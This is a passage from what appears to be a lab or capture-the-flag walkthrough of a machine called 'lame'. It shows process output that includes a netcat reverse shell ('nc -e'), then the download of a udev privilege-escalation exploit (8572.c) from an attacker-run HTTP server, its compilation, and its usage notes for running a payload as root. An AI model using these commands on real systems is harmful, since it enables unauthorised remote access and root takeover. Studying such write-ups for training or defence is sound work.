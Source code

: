 ```output
daemon    5552  0.0  0.0   1984   424 ?        Ss   03:23   0:00 /usr/sbin/atd
root      5565  0.0  0.1   2104   896 ?        Ss   03:23   0:00 /usr/sbin/cron
root      5595  0.0  0.0   2052   352 ?        Ss   03:23   0:00 /usr/bin/jsvc -
root      5596  0.0  0.0   2052   480 ?        S    03:23   0:00 /usr/bin/jsvc -
tomcat55  5598  0.2 17.3 364024 89656 ?        Sl   03:23   1:36 /usr/bin/jsvc -
root      5618  0.0  0.5  10596  2944 ?        Ss   03:23   0:00 /usr/sbin/apach
root      5639  0.0  5.1  66344 26472 ?        Sl   03:23   0:00 /usr/bin/rmireg
root      5643  0.1  0.4  12208  2568 ?        Sl   03:23   0:48 ruby /usr/sbin/
root      5653  0.0  0.4   8540  2360 ?        S    03:23   0:01 /usr/bin/unreal
root      5657  0.0  0.0   1716   492 tty1     Ss+  03:23   0:00 /sbin/getty 384
root      5660  0.0  2.3  13928 12012 ?        S    03:23   0:07 Xtightvnc :0 -d
root      5666  0.0  0.2   2724  1188 ?        S    03:23   0:00 /bin/sh /root/.
root      5669  0.0  0.4   5936  2576 ?        S    03:23   0:00 xterm -geometry
root      5671  0.0  0.9   8988  4988 ?        S    03:23   0:09 fluxbox
root      5694  0.0  0.3   2852  1548 pts/0    Ss+  03:23   0:00 -bash
www-data  9780  0.0  0.3  10596  1960 ?        S    06:54   0:00 /usr/sbin/apach
www-data  9781  0.0  0.3  10596  1960 ?        S    06:54   0:00 /usr/sbin/apach
www-data  9782  0.0  0.3  10596  1960 ?        S    06:54   0:00 /usr/sbin/apach
www-data  9783  0.0  0.3  10596  1960 ?        S    06:54   0:00 /usr/sbin/apach
www-data  9784  0.0  0.3  10596  1960 ?        S    06:54   0:00 /usr/sbin/apach
daemon   11595  0.0  0.2   3232  1420 ?        SN   13:10   0:00 sh -c (nc -e /b
daemon   11596  0.0  0.2   3236  1432 ?        SN   13:10   0:00 bash
daemon   11599  0.0  0.1   1716   516 ?        SN   13:10   0:00 script /dev/nul
daemon   11600  0.0  0.0   1720   408 ?        SN   13:10   0:00 script /dev/nul
daemon   11601  0.0  0.3   3424  1888 pts/1    SNs  13:10   0:00 bash
postfix  11673  0.0  0.3   5420  1644 ?        S    13:21   0:00 pickup -l -t fi
daemon   11710  0.0  0.1   2364   932 pts/1    RN+  13:30   0:00 ps -aux
daemon@lame:/tmp$ 
```

Startup a server on your attack machine.

`python3 -m http.server 80`

In the target, the machine downloads the exploit file.

`wget http://10.10.16.11/8572.c`

Compile the exploit.

`gcc 8572.c -o 8572`

To run it, let’s look at the usage instructions.

```bash
 /* Usage:
 *
 *   Pass the PID of the udevd netlink socket (listed in /proc/net/netlink, 
 *   usually is the udevd PID minus 1) as argv[1].
 *
 *   The exploit will execute /tmp/run as root so throw whatever payload you 
 *   want in there.
 */
```
